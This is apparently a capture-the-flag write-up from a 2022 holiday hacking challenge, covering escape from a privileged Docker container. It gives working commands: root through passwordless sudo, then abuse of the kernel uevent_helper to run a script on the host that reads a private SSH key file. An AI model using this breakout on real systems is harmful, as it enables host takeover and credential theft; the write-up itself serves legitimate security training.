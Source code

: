 # Prison Escape

Time to escape the Docker Prison. This was a neato exercise, since prior to this the extent of my Docker escapes usually revolved around poor developers that didn't think Docker containers were as ephemeral as they are supposed to be considered and left behind pretty sensitive artifacts that an attacker could use to pivot.

```
######################################################
Sun Dec 11 17:26:03 UTC 2022
On attempt [5] of trying to connect.
If no connection is made after [60] attempts
contact the holidayhack sys admins via discord.
######################################################
 
Greetings Noble Player, 

You find yourself in a jail with a recently captured Dwarven Elf.

He desperately asks your help in escaping for he is on a quest to aid a friend in a search for treasure inside a crypto-mine. 

If you can help him break free of his containment, he claims you would receive "MUCH GLORY!"

Please, do your best to un-contain yourself and find the keys to both of your freedom.
```

Greeted with a shell. A shell in which I had sudo access with no password:

```
grinchum-land:~$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
grinchum-land:~$ sudo su
grinchum-land:/home/samways# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Ok, so now that I'm root...what should I do?

Let's try to break out of the container!

```
grinchum-land:/home/samways# cat /proc/1/cgroup
11:blkio:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
10:pids:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
9:perf_event:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
8:hugetlb:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
7:cpuset:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
6:devices:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
5:cpu,cpuacct:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
4:memory:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
3:freezer:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
2:net_cls,net_prio:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
1:name=systemd:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
0::/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
```

Confirmed we are in a docker container...

Checking `/dev` to see if we have access to a lot of devices. Apparently we do:

```
grinchum-land:/home/samways# ls /dev
autofs           loop0   nvram     tty1   tty20  tty31  tty42  tty53  tty7     vcs5   vcsu3
btrfs-control    loop1   ptmx      tty10  tty21  tty32  tty43  tty54  tty8     vcs6   vcsu4
core             loop2   ptp0      tty11  tty22  tty33  tty44  tty55  tty9     vcsa   vcsu5
cpu              loop3   pts       tty12  tty23  tty34  tty45  tty56  ttyS0    vcsa1  vcsu6
cpu_dma_latency  loop4   random    tty13  tty24  tty35  tty46  tty57  uhid     vcsa2  vda
cuse             loop5   shm       tty14  tty25  tty36  tty47  tty58  uinput   vcsa3  vsock
fd               loop6   snapshot  tty15  tty26  tty37  tty48  tty59  urandom  vcsa4  zero
full             loop7   stderr    tty16  tty27  tty38  tty49  tty6   vcs      vcsa5
fuse             mem     stdin     tty17  tty28  tty39  tty5   tty60  vcs1     vcsa6
input            mqueue  stdout    tty18  tty29  tty4   tty50  tty61  vcs2     vcsu
kmsg             net     tty       tty19  tty3   tty40  tty51  tty62  vcs3     vcsu1
loop-control     null    tty0      tty2   tty30  tty41  tty52  tty63  vcs4     vcsu2
```

Do we have access to disk devices?

```
grinchum-land:/home/samways# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Find the overlay filesystem path and set it to `$host_path`

```sh
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```


After some messing around, I discovered that the script on the page itself was relative to where the script was called from! To get this to work properly, I created the following script:

```sh
#!/bin/sh
b=`dirname $0`
cat /etc/hostname > $b/o.txt
```

I then added our script to the event helper and triggered a change:

```sh
echo "$host_path/t.sh" > /sys/kernel/uevent_helper
echo change > /sys/class/mem/null/uevent
```


Now the output showed:
![Output](/img/elfhouse/prisonescape1.png)

Nice, showed the hostname of the host OS. I have code execution!

Now, since the challenge states :

```
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?`
```

After changing the `cat /etc/hostname` to `cat /home/jailer/.ssh/jail.key.priv` and viewing the resulting `o.txt` file, I am greeted with this:

![Flag](/img/elfhouse/prisonescape2.png)

And just so I have the ascii:

```

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
```